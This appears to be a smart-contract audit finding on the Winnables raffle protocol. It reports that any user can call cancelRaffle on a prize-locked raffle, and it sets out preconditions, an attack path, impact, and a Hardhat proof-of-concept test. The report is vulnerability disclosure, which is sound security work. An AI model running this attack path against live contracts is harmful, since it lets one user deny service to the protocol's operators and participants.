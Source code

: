 ### Internal pre-conditions

There must be a raffleId with raffleStatus == PRIZE_LOCKED


### External pre-conditions

The attacker must monitor the contract to identify when a raffle is in the PRIZE_LOCKED state, which occurs after the admin locks a prize in the `WinnablesPrizeManager` contract.
The attacker must call the `WinnablesTicketManager::cancelRaffle` before the admin calls `WinnablesTicketManager::createRaffle`.


### Attack Path

1. An attacker monitors the contract to detect when a new raffle enters the PRIZE_LOCKED state.
2. As soon as the raffle reaches this state, the attacker calls the cancelRaffle function.
3. The raffle is canceled before it can transition to an active state, preventing it from starting.
4. The attacker can repeat this process for each new raffle, effectively blocking the initiation of all raffles.


### Impact

This vulnerability allows a malicious actor to disrupt the entire raffle system. By preventing any raffles from starting, the attacker can undermine the functionality of the whole protocol.


### PoC

The test below, which can be added to the hardhat test suite, shows that a random user can cancel the raffle if it hasn't yet been started

```javascript
  describe('Buyer can cancel raffle', () => {
    before(async () => {
      snapshot = await helpers.takeSnapshot();
    });

    after(async () => {
      await snapshot.restore();
    });
    const buyers = [];

    it('Should be able to cancel a raffle', async () => {
      const now = await blockTime();
      const buyer = await getWalletWithEthers();
      await (await link.mint(manager.address, ethers.utils.parseEther('100'))).wait();
      const tx = await manager.connect(buyer).cancelRaffle(counterpartContractAddress, 1, 1);
      const { events } = await tx.wait();
      expect(events).to.have.lengthOf(3);
      const ccipMessageEvent = ccipRouter.interface.parseLog(events[0]);
      expect(ccipMessageEvent.name).to.eq('MockCCIPMessageEvent');
      expect(ccipMessageEvent.args.data).to.eq('0x000000000000000000000000000000000000000000000000000000000000000001');
      await expect(manager.getWinner(1)).to.be.revertedWithCustomError(manager, 'RaffleNotFulfilled');
    });
  });
```

